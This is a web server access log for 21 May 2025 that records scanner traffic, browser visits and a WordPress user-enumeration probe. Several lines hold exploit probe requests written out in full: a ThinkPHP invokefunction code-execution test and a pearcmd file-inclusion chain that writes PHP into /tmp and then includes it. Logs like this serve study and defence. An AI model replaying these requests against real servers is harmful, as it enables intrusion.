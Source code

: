 [2025-05-21 03:35:16]	71.6.199.87	/	Mozilla/5.0 zgrab/0.x	-	200	0.001	PUBLIC
[2025-05-21 03:35:16]	71.6.199.87	/	Mozilla/5.0 zgrab/0.x	-	200	0.001	PUBLIC
[2025-05-21 03:35:16]	71.6.199.87	/	Mozilla/5.0 zgrab/0.x	-	200	0.001	PUBLIC
[2025-05-21 05:59:27]	171.244.40.20	/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello	Custom-AsyncHttpClient	-	200	0.002	PUBLIC
[2025-05-21 05:59:27]	171.244.40.20	/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello	Custom-AsyncHttpClient	-	200	0.002	PUBLIC
[2025-05-21 05:59:27]	171.244.40.20	/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello	Custom-AsyncHttpClient	-	200	0.002	PUBLIC
[2025-05-21 05:59:28]	171.244.40.20	/index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5("hi"));?>+/tmp/index1.phCustom-AsyncHttpClient	-	200	0.001	PUBLIC
[2025-05-21 05:59:28]	171.244.40.20	/index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5("hi"));?>+/tmp/index1.phCustom-AsyncHttpClient	-	200	0.001	PUBLIC
[2025-05-21 05:59:28]	171.244.40.20	/index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5("hi"));?>+/tmp/index1.phCustom-AsyncHttpClient	-	200	0.001	PUBLIC
[2025-05-21 05:59:29]	171.244.40.20	/index.php?lang=../../../../../../../../tmp/index1	Custom-AsyncHttpClient	-	200	0.000	PUBLIC
[2025-05-21 05:59:29]	171.244.40.20	/index.php?lang=../../../../../../../../tmp/index1	Custom-AsyncHttpClient	-	200	0.000	PUBLIC
[2025-05-21 05:59:29]	171.244.40.20	/index.php?lang=../../../../../../../../tmp/index1	Custom-AsyncHttpClient	-	200	0.000	PUBLIC
[2025-05-21 06:25:30]	167.172.232.142	/	unknown	-	200	0.000	PUBLIC
[2025-05-21 06:25:30]	167.172.232.142	/	unknown	-	200	0.000	PUBLIC
[2025-05-21 06:25:30]	167.172.232.142	/	unknown	-	200	0.000	PUBLIC
[2025-05-21 06:25:36]	167.172.232.142	/	Mozilla/5.0 (Linux; Android 6.0; HTC One M9 Build/MRA613271) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.1113.98 Mobile Safari/537.3	-	200	0.000	PUBLIC
[2025-05-21 06:25:36]	167.172.232.142	/	Mozilla/5.0 (Linux; Android 6.0; HTC One M9 Build/MRA613271) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.1113.98 Mobile Safari/537.3	-	200	0.001	PUBLIC
[2025-05-21 06:25:36]	167.172.232.142	/	Mozilla/5.0 (Linux; Android 6.0; HTC One M9 Build/MRA613271) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.1113.98 Mobile Safari/537.3	-	200	0.001	PUBLIC
[2025-05-21 06:25:51]	167.172.232.142	/?rest_route=/wp/v2/users/	Go-http-client/1.1	-	200	0.000	PUBLIC
[2025-05-21 06:25:51]	167.172.232.142	/?rest_route=/wp/v2/users/	Go-http-client/1.1	-	200	0.000	PUBLIC
[2025-05-21 06:25:51]	167.172.232.142	/?rest_route=/wp/v2/users/	Go-http-client/1.1	-	200	0.000	PUBLIC
[2025-05-21 06:54:47]	87.236.176.212	/	Mozilla/5.0 (compatible; InternetMeasurement/1.0; +https://internet-measurement.com/)	-	200	0.001	PUBLIC
[2025-05-21 06:54:47]	87.236.176.212	/	Mozilla/5.0 (compatible; InternetMeasurement/1.0; +https://internet-measurement.com/)	-	200	0.001	PUBLIC
[2025-05-21 06:54:47]	87.236.176.212	/	Mozilla/5.0 (compatible; InternetMeasurement/1.0; +https://internet-measurement.com/)	-	200	0.001	PUBLIC
[2025-05-21 07:01:46]	128.192.193.151	/	Mozilla/5.0 zgrab/0.x	-	200	0.000	PUBLIC
[2025-05-21 07:01:46]	128.192.193.151	/	Mozilla/5.0 zgrab/0.x	-	200	0.000	PUBLIC
[2025-05-21 07:01:46]	128.192.193.151	/	Mozilla/5.0 zgrab/0.x	-	200	0.000	PUBLIC
[2025-05-21 07:15:53]	185.242.226.88	/	Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36	-	200	0.001	PUBLIC
[2025-05-21 07:15:53]	185.242.226.88	/	Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36	-	200	0.001	PUBLIC
[2025-05-21 07:15:53]	185.242.226.88	/	Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36	-	200	0.001	PUBLIC
[2025-05-21 07:19:35]	128.192.193.151	/	Mozilla/5.0 zgrab/0.x	-	200	0.000	PUBLIC
[2025-05-21 07:19:35]	128.192.193.151	/	Mozilla/5.0 zgrab/0.x	-	200	0.001	PUBLIC
[2025-05-21 07:19:35]	128.192.193.151	/	Mozilla/5.0 zgrab/0.x	-	200	0.001	PUBLIC
[2025-05-21 07:39:35]	110.145.207.78	/	Mozilla/5.0 (iPhone; CPU iPhone OS 18_4_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.4 Mobile/15E148 Safari/604.1	-	200	0.001	PUBLIC
[2025-05-21 07:39:35]	110.145.207.78	/	Mozilla/5.0 (iPhone; CPU iPhone OS 18_4_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.4 Mobile/15E148 Safari/604.1	-	200	0.001	PUBLIC
[2025-05-21 07:39:35]	110.145.207.78	/	Mozilla/5.0 (iPhone; CPU iPhone OS 18_4_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.4 Mobile/15E148 Safari/604.1	-	200	0.001	PUBLIC
[2025-05-21 08:30:17]	203.12.10.132	/	Mozilla/5.0 (iPhone; CPU iPhone OS 18_4_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.4 Mobile/15E148 Safari/604.1	-	200	0.001	PUBLIC
[2025-05-21 08:30:17]	203.12.10.132	/	Mozilla/5.0 (iPhone; CPU iPhone OS 18_4_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.4 Mobile/15E148 Safari/604.1	-	200	0.001	PUBLIC